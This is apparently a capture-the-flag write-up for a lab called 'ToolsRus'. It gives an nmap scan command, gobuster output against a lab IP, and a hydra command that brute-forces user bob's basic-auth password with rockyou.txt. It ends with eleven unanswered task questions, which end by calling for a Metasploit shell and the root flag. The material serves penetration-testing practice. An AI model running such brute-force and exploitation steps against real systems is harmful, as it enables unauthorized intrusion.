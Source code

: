 # ToolsRus
Your challenge is to use the tools listed below to enumerate a server, gathering
information along the way that will eventually lead to you taking over the
machine.


This task requires you to use the following tools:
- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

## Notes

### Nmap
Tasks 5,6,8,and 9 can be solved with the following nmap scan:
```
nmap -sV -sC -Pn -oN nmap_scan $IP
```

### Gobuster
I chose to use gobuster instead of dirbuster here.

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.155.36:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/16 16:47:28 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2020/10/16 16:47:49 Finished
===============================================================


## Hydra
Run the following command to get the password for the protected directory:
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt $IP http-get -m http://$IP/protected
```

## Tasks
1. What directory can you find, that begins with a "g"?


2. Whose name can you find from this directory?


3. What directory has basic authentication?


4. What is bob's password to the protected part of the website?


5. What other port that serves a webs service is open on the machine?


6. Going to the service running on that port, what is the name and version of
the software?

Answer format: Full_name_of_service/Version



7. Use Nikto with the credentials you have found and scan the /manager/html
directory on the port found above.

How many documentation files did Nikto identify?


8. What is the server version (run the scan against port 80)?


9. What version of Apache-Coyote is this service using?


10. Use Metasploit to exploit the service and get a shell on the system.

What user did you get a shell as?



11. What text is in the file /root/flag.txt



